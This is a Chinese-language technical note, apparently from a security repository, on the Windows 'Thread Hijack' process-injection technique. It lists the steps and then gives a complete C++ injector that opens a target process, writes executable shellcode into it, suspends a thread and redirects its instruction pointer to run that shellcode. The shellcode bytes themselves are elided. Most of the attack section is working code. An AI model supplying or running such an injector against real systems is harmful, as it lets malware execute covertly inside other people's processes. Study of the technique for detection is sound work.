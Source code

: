 # Thread Hijack
## 简介
过程比较类似Process Hollowing, Process Hollowing是镂空进程. Thread Hijack是挂起目标线程, 修改程序流instruction pointer(RIP/EIP寄存器)指向shellcode空间.  好像是很基本的手段, 确实很朴素, 直接就修改RIP.

在系统调用的中途挂起并恢复线程会**引起系统崩溃**。为了避免这种情况的发生，更复杂的利用技术是，一旦EIP寄存器在`NTDLL.dll`中就恢复并重试。

1. 攻击已存在的process
2. shellcode
3. 无`CreateRemoteThread`

### 过程简介

1. 找到目标进程和线程
2. 往目标进程中写一会儿要跑的shellcode
	* `VirtualAllocEx`
	* `WriteProcessMemory`
3. 挂起目标线程
	* `SuspendThread`
4. 获取目标线程环境
	* `GetThreadContext`
5. 修改线程程序流, 寄存器RIP/EIP的值, point to the shellcode.
	* `Context.Eip= AllocMemory`
	* x64 -> Rip, x86 -> Eip
6. 重新设置环境
	* `SetThreadContext`
7. 唤醒线程
	* `ResumeThread`

## 关键代码注释
太简单了, 就直接贴一下code算了.

```
#include <windows.h>
#include <iostream>
#include <Tlhelp32.h>
#include <vector>
using namespace std;
DWORD GetProcessPid(char *ProcessName);
DWORD GetThreadTid(DWORD Pid);
UCHAR shellcode[] = {....};
int main(int argc, char* arg[])
{
	// 1. get target process
	DWORD Pid = GetProcessPid(arg[1]);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);

	// 2. Alloc space and Write shellcode
	LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocMemory, shellcode, sizeof(shellcode), NULL);
	 
	// 3. suspend thread and getcontext
	DWORD Tid = GetThreadTid(Pid);
	HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, TRUE, Tid);

	cout << "Pid is " << Pid << endl;
	cout << "Tid is " << Tid << endl;

	SuspendThread(hThread);
	CONTEXT lpContext = {0};
	lpContext.ContextFlags = CONTEXT_ALL;
	GetThreadContext(hThread, &lpContext);
	
	//4. change RIP, point to shellcode.
	GetThreadContext(hThread, &lpContext);
	lpContext.Eip = (DWORD_PTR)AllocMemory;	// x64 lpContext.Rip
	SetThreadContext(hThread, &lpContext);
	ResumeThread(hThread);

	cout << "Thread Hijack Successful" << endl;
}


DWORD GetProcessPid(char *ProcessName)
{
	HANDLE hProcessSnap = NULL;   //define snapshot
	DWORD ProcessID = 0;
	PROCESSENTRY32 pe32 = { 0 };
	hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);   //create snapshot of all process in system
	pe32.dwSize = sizeof(PROCESSENTRY32);
	if (Process32First(hProcessSnap, &pe32))
	{
		do
		{
			if (!strcmp(ProcessName, pe32.szExeFile))
			{
				ProcessID = pe32.th32ProcessID;
				break;
			}
		} while (Process32Next(hProcessSnap, &pe32));
	}
	CloseHandle(hProcessSnap);
	return ProcessID;
}

DWORD GetThreadTid(DWORD Pid)
{
	HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0); 
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	HANDLE threadHandle = NULL;
	if (Thread32First(hThreadSnap, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == Pid) {
				return threadEntry.th32ThreadID;
			}
		} while (Thread32Next(hThreadSnap, &threadEntry));
	}
}
```

## reference

1. [https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)